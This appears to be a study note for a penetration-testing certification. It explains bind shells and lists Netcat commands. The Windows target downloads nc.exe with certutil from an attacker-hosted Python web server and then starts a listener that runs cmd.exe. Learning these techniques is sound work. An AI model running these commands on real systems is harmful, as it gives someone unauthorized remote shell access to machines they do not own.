 [[Root 𖣂]] | [[eJPT - Cheat Sheets]] | [[eJPT - README]]

<hr>

A **bind shell** is a remote shell where the attacker connects to a listener on the target system; though often blocked or flagged, it's important to understand how it works and how to set it up using Netcat.
In order to setup a bind shell with Netcat, we will need to transfer the nc.exe executable to the target system.

```shell
# The first step will involve navigating to the /usr/share/windows-binaries directory
cd /usr/share/windows-binaries/

# We can then setup an HTTP server with Python within this directory by running the following command
python -m SimpleHTTPServer 80

# You will then need to open up a command prompt, navigate to the Desktop directory and run the following command to download the nc.exe executable from the web server being hosted on the Kali Linux system
certutil -urlcache -f http://<my_kali_IP>/nc.exe nc.exe

# Setting up the bind shell listener on the Windows system
.\nc.exe -nvlp 1234 -e cmd.exe

# Back to Kali shell
nc -nv <target_IP> 1234
```
